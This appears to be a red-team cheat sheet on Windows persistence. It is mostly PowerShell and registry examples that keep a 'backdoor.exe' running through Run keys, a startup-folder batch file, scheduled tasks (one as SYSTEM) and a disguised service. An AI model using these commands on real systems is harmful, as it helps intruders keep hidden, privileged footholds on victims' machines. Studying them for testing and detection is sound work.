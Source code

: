 # Windows - Persistence

## Userland

### Registry
Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.
```
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Startup
Create a batch script in the user startup folder.
```
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Scheduled Task
```
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```


## Elevated

### HKLM
Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.
```
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

### Services
Create a service that will start automatically or on-demand.
```
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks
Scheduled Task to run as SYSTEM, everyday at 9am.
```
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```


## Thanks to
 * [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
 * [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)